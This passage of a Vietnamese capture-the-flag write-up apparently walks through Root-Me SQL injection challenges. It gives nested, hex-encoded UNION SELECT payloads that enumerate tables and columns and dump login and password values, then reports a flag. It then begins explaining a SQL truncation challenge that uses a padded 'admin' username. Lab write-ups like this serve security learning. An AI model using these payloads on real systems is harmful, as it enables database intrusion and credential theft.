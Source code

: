 `' UNION SELECT ' UNION SELECT NULL,group_concat(TABLE_NAME) FROM information_schema.tables WHERE table_schema = database() -- - -- -`

-> `'UNION SELECT 0x2720554e494f4e2053454c454354204e554c4c2c67726f75705f636f6e636174285441424c455f4e414d45292046524f4d20696e666f726d6174696f6e5f736368656d612e7461626c6573205748455245207461626c655f736368656d61203d2064617461626173652829202d2d202d -- -`

Kết quả trả về table `users`

![image](https://hackmd.io/_uploads/H1YmCXura.png)

Từ đây ta tiếp tục khai thác các column trong table `users` với payload :  

`'UNION SELECT ' UNION SELECT NULL,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_name = 'users' -- - -- -`

-> `'UNION SELECT 0x2720554e494f4e2053454c454354204e554c4c2c67726f75705f636f6e63617428434f4c554d4e5f4e414d45292046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d2027757365727327202d2d202d -- -`

Kết quả trả về 4 column nhưng ta chỉ quan tâm 2 column là `login` và `password` 

![image](https://hackmd.io/_uploads/HJ9VkN_rT.png)

Vậy bước cuối cùng là lấy password và submit thôi :    
`'UNION SELECT ' UNION SELECT NULL,group_concat(login,' ~ ',password) FROM users -- - -- -`

-> `'UNION SELECT 0x2720554e494f4e2053454c454354204e554c4c2c67726f75705f636f6e636174286c6f67696e2c27207e20272c70617373776f7264292046524f4d207573657273202d2d202d -- -`

Yee , vậy là ta đã tìm được flag :    

![image](https://hackmd.io/_uploads/H1I6JEuBp.png)

Flag : qs89QdAs9A

## [6. Truncation](https://www.root-me.org/en/Challenges/Web-Server/SQL-Truncation)

![image](https://hackmd.io/_uploads/S1dS6juBa.png)

![image](https://hackmd.io/_uploads/BkehTj_HT.png)

![image](https://hackmd.io/_uploads/HkY36o_Ba.png)

Bài này thuộc dạng SQL Truncation , nhưng không phải func TRUNCATE trong SQL :v 

Hiểu nôm na là một column khi được tạo sẽ quy định max bao nhiêu kí tự đó. Nếu khi thêm giá trị vào column mà vượt quá giá trị max thì nó sẽ tự động cắt đi số kí tự vượt quá :-1: 

Giả sử column `username` có max là `10 kí tự` nếu ta nhập vào`15 kí tự` thì nó sẽ tự động cắt đi `5 kí tự` cuối cùng

**Note** giả sử trong `10 kí tự` còn lại sau khi bị cắt gồm : 
- `5 kí tự đầu` là `admin`
- `5 kí tự cuối` là khoảng trắng
